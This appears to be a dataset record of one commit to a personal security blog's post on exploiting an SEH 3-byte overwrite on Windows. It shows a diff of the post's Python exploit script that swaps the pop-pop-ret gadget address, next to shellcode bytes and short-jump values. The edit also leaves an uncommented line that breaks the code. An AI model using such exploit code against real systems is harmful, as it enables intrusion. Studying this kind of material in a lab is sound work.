

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2020-03-09-Exploiting-SEH-3-byte-Overwrite-on-Windows.md, in a window 1280 px wide and 900 px high, scrolled down 8143 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2020-03-09-Exploiting-SEH-3-byte-Overwrite-on-Windows.md

```diff
--- a/_posts/posts/2020-03-09-Exploiting-SEH-3-byte-Overwrite-on-Windows.md
+++ b/_posts/posts/2020-03-09-Exploiting-SEH-3-byte-Overwrite-on-Windows.md
@@ -312,8 +312,8 @@ buf += b"\xe1\xdb\x6e\x7b\x64\x48\xf2\x52\x03\xe8\x91\xaa"
 
 host = sys.argv[1]
 
-seh = "\x59\x1C\x40\x00" # 0x00401c59 : pop esi # pop edi # ret  | startnull,asciiprint,ascii {PAGE_EXECUTE_READ} [server.exe] ASLR:
-# False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\server.exe)
+seh = "\x2D\x27\x40\x00" # 0040272D : pop esi # pop edi # ret  | startnull,asciiprint,ascii {PAGE_EXECUTE_READ} [server.exe] ASLR:
+False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\server.exe)
 nseh = "\xEB\xF9\x90\x90"
 sjmp = "\xE9\xA9\xFC\xFF\xFF"
 
```
